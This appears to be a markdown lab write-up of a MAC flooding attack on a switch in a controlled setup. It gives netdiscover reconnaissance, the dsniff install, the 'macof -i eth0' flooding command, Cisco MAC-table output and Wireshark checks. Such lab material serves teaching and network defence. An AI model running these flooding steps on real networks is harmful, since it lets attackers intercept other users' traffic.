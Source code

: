 ```yaml
---
title: MAC flooding
---
```


# MAC flooding

1. Goal
    * Changing the behavior of the switch to the behavior of a hub. (Monitoring all traffic)

2. Used hardware
    * 1 laptop with Kali Linux
    * 2 devices (Client & Server)
    * 1 laptop with Wireshark
    * 1 switch

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.2

4. Setup

    ![Success](./assets/flooding.png)

5. Getting started
    1. Get an overview of your network. (Kali Linux)
    
    ```
    kali@kali:~# sudo netdiscover
    ```

    ```
    Currently scanning: 192.168.20.0/16   |   Screen View: Unique Hosts                                  
                                                                                                      
    2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                      
    _____________________________________________________________________________
        IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------
    192.168.1.1     00:24:9b:13:3d:74      1        60  Action Star Enterprise Co., Ltd.                                          
    192.168.1.4     00:21:70:af:62:79      1        60  Dell Inc.   
    ```

    The result shows us the client (192.168.1.1) and the server (192.168.1.4).

    2. Start the communication between the client and the server.

    ```
    C:\Users\Student>ping 192.168.1.4 -t

    Pinging 192.168.1.4 with 32 bytes of data:
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    ```
    
    3. Look at the MAC address table of the client.

    ```
    C:\Users\Student>arp -a

    Interface: 192.168.1.1 --- 0xb
        Internet Address      Physical Address      Type
        192.168.1.4           00-21-70-af-62-79     dynamic   
        192.168.1.255         ff-ff-ff-ff-ff-ff     static    
        224.0.0.22            01-00-5e-00-00-16     static    
        224.0.0.251           01-00-5e-00-00-fb     static    
        224.0.0.252           01-00-5e-00-00-fc     static 
    ```

    4. Start Wireshark. (Kali Linux)

    ![Success](./assets/capture.png)

    The result shows us no ICMP traffic destined for the server (192.168.1.4).

    5. Install macof on Kali Linux. (If necessary)

    ```
    kali@kali:~# sudo apt-get update
    kali@kali:~# sudo apt-get upgrade
    kali@kali:~# sudo apt-get install dsniff
    ```

    6. Check the MAC address table of the switch.

    ```
    Switch#show mac address-table
              Mac Address Table
    -------------------------------------------

    Vlan    Mac Address       Type        Ports
    ----    -----------       --------    -----
    All    0100.0ccc.cccc    STATIC      CPU
    All    0100.0ccc.cccd    STATIC      CPU
    All    0180.c200.0000    STATIC      CPU
    All    0180.c200.0001    STATIC      CPU
    All    0180.c200.0002    STATIC      CPU
    All    0180.c200.0003    STATIC      CPU
    All    0180.c200.0004    STATIC      CPU
    All    0180.c200.0005    STATIC      CPU
    All    0180.c200.0006    STATIC      CPU
    All    0180.c200.0007    STATIC      CPU
    All    0180.c200.0008    STATIC      CPU
    All    0180.c200.0009    STATIC      CPU
    All    0180.c200.000a    STATIC      CPU
    All    0180.c200.000b    STATIC      CPU
    All    0180.c200.000c    STATIC      CPU
    All    0180.c200.000d    STATIC      CPU
    All    0180.c200.000e    STATIC      CPU
    All    0180.c200.000f    STATIC      CPU
    All    0180.c200.0010    STATIC      CPU
    All    ffff.ffff.ffff    STATIC      CPU
      1    0021.70af.6279    DYNAMIC     Gi0/1
      1    0024.9b13.3d74    DYNAMIC     Gi0/4
      1    d067.e556.cac8    DYNAMIC     Gi0/2
      1    ecf4.bb1b.7671    DYNAMIC     Gi0/3
    Total Mac Addresses for this criterion: 24
    Switch#
    ```
    
    6. Launch the attack. (MAC Flooding)

    ```
    kali@kali:~# sudo macof -i eth0
    ```
    
    7. Clear the MAC address table of the switch. (To speed up the result of the attack)

    ```
    Switch#clear mac address-table  
    ```

    8. Stop the attack and check the status of MAC address table.

    ```
    Switch#show mac address-table count

    Mac Entries for Vlan 1:
    ---------------------------
    Dynamic Address Count  : 8170
    Static  Address Count  : 0
    Total Mac Addresses    : 8170

    Total Mac Address Space Available: 0

    Switch# 
    ```
    9. Check Wireshark.

    ![Success](./assets/capture2.png)

    The result shows us ICMP traffic destined for the server (192.168.1.4).

6. Conclusion
    
    It is easy to change the behavior of a switch to the behavior of a hub.